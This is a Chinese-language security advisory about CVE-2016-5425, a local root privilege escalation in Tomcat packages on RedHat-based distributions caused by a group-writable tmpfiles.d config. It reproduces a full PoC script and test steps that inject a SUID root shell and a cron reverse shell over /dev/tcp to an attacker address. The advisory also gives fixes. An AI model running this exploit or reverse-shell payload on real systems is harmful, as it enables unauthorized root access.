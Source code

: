 > 原文链接: https://www.anquanke.com//post/id/84700 


# 【漏洞预警】Apache Tomcat 8/7/6 (基于RedHat发行版的)本地提权漏洞


                                阅读量   
                                **194736**
                            
                        |
                        
                                                                                    



[![](https://p0.ssl.qhimg.com/t010f450d4a5fc8387e.jpg)](https://p0.ssl.qhimg.com/t010f450d4a5fc8387e.jpg)

I. 漏洞描述

Apache Tomcat （基于RedHat发行版）的本地提权漏洞



**II. 背景介绍**

Tomcat是由Apache软件基金会下属的Jakarta项目开发的一个Servlet容器，按照Sun Microsystems提供的技术规范，实现了对Servlet和JavaServer Page（JSP）的支持，并提供了作为Web服务器的一些特有功能，如Tomcat管理和控制平台、安全域管理和Tomcat阀等。

官方网站：http://tomcat.apache.org/



**III.介绍**

Apache Tomcat （基于RedHat发行版）的安装包（包括CentOS, RedHat, OracleLinux, Fedora,等等）安装后由于文件权限配置不当，会新建一个允许tomcat用户权限读写tmpfiles.d的配置文件（例如，攻击者可以利用WEB漏洞来读写此文件），从而允许攻击者从tomcat用户权限提升到root权限，实现完全控制系统。



**IV.漏洞描述**

基于RedHat发行版的Tomcat安装后，tomcat组用户对tomcat.conf文件具有写权限，如下



```
[root@localhost ~]# ls -al /usr/lib/tmpfiles.d/tomcat.conf 
-rw-rw-r--. 1 root tomcat 43 May 12  2015 /usr/lib/tmpfiles.d/tomcat.conf
```



tmpfiles.d目录下的配置文件是systemd-tmpfiles用于管理临时文件的，攻击者可以非常容易的注入恶意payload进tomcat.conf文件，比如新建一个反弹SHELL，新建一个具有SUID权限的文件。当/usr/bin/systemd-tmpfiles执行的时候，注入的payload也会随之得到执行。



在REDHAT发行版，默认启动后，systemd-tmpfiles会通过systemd-tmpfiles-setup.service服务得到执行，如下：



```
[root@localhost www]# cat /usr/lib/systemd/system/systemd-tmpfiles-setup.service |grep ExecStart
ExecStart=/usr/bin/systemd-tmpfiles --create --remove --boot --exclude-prefix=/dev
```

依赖于系统使用，systemd-tmpfiles也可以通过其他服务，cronjobs,启动脚本，等方式来触发。值得说明的另外一个地方是， systemd-tmpfiles不会因为配置文件中的语法错误导致报错停止。因此攻击者可以很容易的注入恶意PAYLOAD到/usr/lib/tmpfiles.d/tomcat.conf 



根据下面的POC，我们可以看到

```
C /usr/share/tomcat/rootsh 4770 root root - /bin/bash
z /usr/share/tomcat/rootsh 4770 root root -
F /etc/cron.d/tomcatexploit 0644 root root - "* * * * * root nohup bash -i &gt;/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0&lt;&amp;1 2&gt;&amp;1
```



被注入到tomcat.conf ，意思是反弹SHELL，并新建一个具有SUID权限的shell,具体C，z,F的含义，我们可以通过 man 5 tmpfiles.d来查看。



**V. POC和本地测试**



```
-----------[ tomcat-RH-root.sh ]---------
 
#!/bin/bash
# Apache Tomcat packaging on RedHat-based distros - Root Privilege Escalation PoC Exploit
# CVE-2016-5425
#
# Full advisory at:
# http://legalhackers.com/advisories/Tomcat-RedHat-Pkgs-Root-PrivEsc-Exploit-CVE-2016-5425.html
#
# Discovered and coded by:
# Dawid Golunski
# http://legalhackers.com
#
# Tested on RedHat, CentOS, OracleLinux, Fedora systems.
#
# For testing purposes only.
#
 
ATTACKER_IP=127.0.0.1
ATTACKER_PORT=9090
 
echo -e "n* Apache Tomcat (RedHat distros) - Root PrivEsc PoC CVE-2016-5425 *"
echo -e  "  Discovered by Dawid Golunskin"
echo "[+] Checking vulnerability"
ls -l /usr/lib/tmpfiles.d/tomcat.conf | grep 'tomcat'
if [ $? -ne 0 ]; then
    echo "Not vulnerable or tomcat installed under a different user than 'tomcat'"
    exit 1
fi
echo -e "n[+] Your system is vulnerable!"
 
echo -e "n[+] Appending data to /usr/lib/tmpfiles.d/tomcat.conf..."
cat&lt;&lt;_eof_&gt;&gt;/usr/lib/tmpfiles.d/tomcat.conf
C /usr/share/tomcat/rootsh 4770 root root - /bin/bash
z /usr/share/tomcat/rootsh 4770 root root -
F /etc/cron.d/tomcatexploit 0644 root root - "* * * * * root nohup bash -i &gt;/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0&lt;&amp;1 2&gt;&amp;1 &amp; nn"
_eof_
 
echo "[+] /usr/lib/tmpfiles.d/tomcat.conf contains:"
cat /usr/lib/tmpfiles.d/tomcat.conf
echo -e "n[+] Payload injected! Wait for your root shell...n"
echo -e "Once '/usr/bin/systemd-tmpfiles --create' gets executed (on reboot by tmpfiles-setup.service, by cron, by another service etc.), 
the rootshell will be created in /usr/share/tomcat/rootsh. 
Additionally, a reverse shell should get executed by crond shortly after and connect to $ATTACKER_IP:$ATTACKER_PORT n"
 --------------[ eof ]--------------------
```



本地测试：

1.先确定下本地LINUX发行版本和TOMCAT版本

[![](https://p0.ssl.qhimg.com/t012d9b0c03193eb71f.png)](https://p0.ssl.qhimg.com/t012d9b0c03193eb71f.png)

2.切换到tomcat组权限下，附加恶意payload到/usr/lib/tmpfiles.d/tomcat.conf文件中

[![](https://p1.ssl.qhimg.com/t01e3afadf07ca9bc59.png)](https://p1.ssl.qhimg.com/t01e3afadf07ca9bc59.png)

```
cat&lt;&lt;_eof_&gt;&gt;/usr/lib/tmpfiles.d/tomcat.conf
F /etc/cron.d/tomcatexploit 0644 root root - "* * * * * root nohup bash -i &gt;/dev/tcp/192.168.1.3/9999 0&lt;&amp;1 2&gt;&amp;1 &amp; nn"
_eof_
```

3.root权限下手动触发/usr/bin/systemd-tmpfiles –create         [这步比较鸡肋，依赖系统有其他服务，cronjobs,启动脚本来触发，如果系统有，则好，如果没有，这个漏洞相对利用来说，需要触发systemd-tmpfiles，有点鸡肋]

```
[root@localhost Desktop]# /usr/bin/systemd-tmpfiles --create
```

4.获取反弹ROOT权限的SHELL



**VI.漏洞影响**

攻击者可以在具有tomcat权限时，通过改写配置文件实现本地提权到ROOT权限。如果远程攻击者结合特定的WEB应用程序漏洞，也可以实现远程利用。



**VII. 影响的版本**

– CentOS

– Fedora

– Oracle Linux

– RedHat

Redhat官网细节:https://access.redhat.com/security/cve/CVE-2016-5425



**VIII.解决办法**

1.临时修复建议

可以调整/usr/lib/tmpfiles.d/tomcat.conf权限，移除tomcat组的写权限



```
chmod 644  /usr/lib/tmpfiles.d/tomcat.conf
```

2. 更新最新Tomcat包

Redhat安全小组已经在第一时间修复了受影响的Tomcat上游包,直接更新发行版提供的Tomcat即可。



**IX.参考**

 [http://legalhackers.com/advisories/Tomcat-RedHat-Pkgs-Root-PrivEsc-Exploit-CVE-2016-5425.html](http://legalhackers.com/advisories/Tomcat-RedHat-Pkgs-Root-PrivEsc-Exploit-CVE-2016-5425.html)

 

The source code of the exploit (tomcat-RH-root.sh) can be downloaded from:

[http://legalhackers.com/exploits/tomcat-RH-root.sh](http://legalhackers.com/exploits/tomcat-RH-root.sh)

 

CVE-2016-5425

[http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5425](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5425)

 

[https://access.redhat.com/security/cve/CVE-2016-5425](https://access.redhat.com/security/cve/CVE-2016-5425)
